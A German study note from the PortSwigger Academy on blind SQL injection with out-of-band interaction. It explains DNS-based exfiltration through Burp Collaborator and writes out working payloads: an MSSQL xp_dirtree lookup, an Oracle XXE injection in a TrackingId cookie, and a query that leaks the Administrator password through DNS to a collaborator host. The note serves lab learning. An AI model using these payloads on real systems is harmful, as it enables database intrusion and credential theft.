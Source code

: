 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Was sind Out of Band Techniken

Manchmal führen Apps die SQL Anragen auf einem extra Thread aus. Also es wird unabhängig von der User Response ausgeführt und somit helfen die bisherigen Methoden nicht.
In manchen Situationen lassen sich solche Out Of Band Interaktionen an ein System welches wir kontrollieren triggern wodurch man dann wiederum an Informationen durch das triggern der SQL Query gelangt

Eine Anzahl an network protokolle können genutzt werden, aber am meisten typisch sind DNS Protokolle. Viele kommerzielle Netzwerke erlauben DNS Queries.

Der einfachste Weg ist es den Burp Collaborator dafür zu verwenden. Der Server bietet eine Vielzahl von Netzwerkprotokollen inkl. DNS.


Unter Microsoft SQL Server kann man mit folgenden Befehl eine Anfrage an eine eigene Domain triggern.

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

Das sorgt dann dafür, dass die Datenbank einen loopkup an folgende Domain ausführt.
`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

## LAB: Blind SQL injection with out-of-band interaction

1.  Wir packen an unseren TrackingID Cookie folgendes Payload um unseren Collaborator zu triggern
```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Wenn das anschlägt haben wir die Möglichkeiten Daten zu extrahieren das könnte zB so aussehen.
```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
Das würde das Passwort des Administrators extrahieren und einen DNS lookup an unseren Collaborator ausführen.

